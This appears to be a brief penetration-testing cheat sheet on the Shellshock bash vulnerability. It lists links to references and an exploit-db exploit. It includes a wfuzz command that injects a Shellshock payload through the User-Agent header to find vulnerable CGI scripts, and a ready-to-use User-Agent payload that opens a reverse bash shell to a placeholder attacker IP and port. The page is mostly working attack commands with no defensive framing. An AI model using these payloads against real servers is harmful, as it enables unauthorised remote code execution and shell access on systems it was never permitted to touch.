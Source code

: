 # Shellshocked

[infosecarticles](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)
[cve](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278)

[python2](https://www.exploit-db.com/exploits/34900)


[Wfuzz](https://wfuzz.readthedocs.io/en/latest/) can both enumerate `cgi-bin` scripts (using a wordlist) and test them for Shellshock:
```bash
wfuzz -v -c -H "User-agent: () { :;}; echo; echo vulnerable" --ss vulnerable -t 50 -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt http://xx.xx.xx.xx/FUZZ
```

```bash
User-Agent: () { :;}; /bin/bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT <&1'
```


![owasp](Images/shellshock-methodology.png)

## References

[infosecinstitute](https://resources.infosecinstitute.com/topic/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)
[pbr94's article](https://github.com/pbr94/Shellshock-Bash-Remote-Code-Execution-Vulnerability-and-Exploitation)